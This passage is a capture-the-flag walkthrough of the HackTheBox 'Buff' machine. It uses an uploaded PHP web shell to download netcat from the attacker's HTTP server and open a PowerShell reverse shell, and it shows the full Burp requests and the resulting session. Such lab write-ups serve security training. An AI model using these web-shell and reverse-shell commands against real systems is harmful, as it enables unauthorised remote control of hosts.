 ```bash
┌─[rin@parrot]─[~/boxes/Buff]
└──╼ $curl -x 127.0.0.1:8080 \
http://buff.htb:8080/upload/kamehameha.php?telepathy=dir
```

In Repeater in Burp Suite, we can now get a reverse shell by uploading netcat and executing that. You can get a Windows version of netcat from /usr/share/windows-resources/binaries/nc.exe and copy it to your working directory. Start a Python web server on your box:

```bash
┌─[✗]─[rin@parrot]─[~/boxes/Buff]
└──╼ $python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Then start a netcat listener:

```bash
┌─[rin@parrot]─[~/boxes/Buff]
└──╼ $nc -lvnp 6001
listening on [any] 6001 ...
```

Then in Burp send:

```bash
GET /upload/kamehameha.php?\
telepathy=curl+http%3a//10.10.14.137%3a8000/nc.exe\
+-o+nc.exe HTTP/1.1
Host: buff.htb:8080
User-Agent: curl/7.72.0
Accept: */*
Connection: close
```

Remember to change the IP address to your box's IP address.

And then run the reverse shell

```bash
GET /upload/kamehameha.php?\
telepathy=nc.exe+10.10.14.137+6001+-e+powershell HTTP/1.1
Host: buff.htb:8080
User-Agent: curl/7.72.0
Accept: */*
Connection: close
```

To get the reverse shell on your box:

```bash
┌─[rin@parrot]─[~/boxes/Buff]
└──╼ $nc -lvnp 6001
listening on [any] 6001 ...
connect to [10.10.14.137] from (UNKNOWN) [10.129.55.153] 
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
PS C:\xampp\htdocs\gym\upload>
```
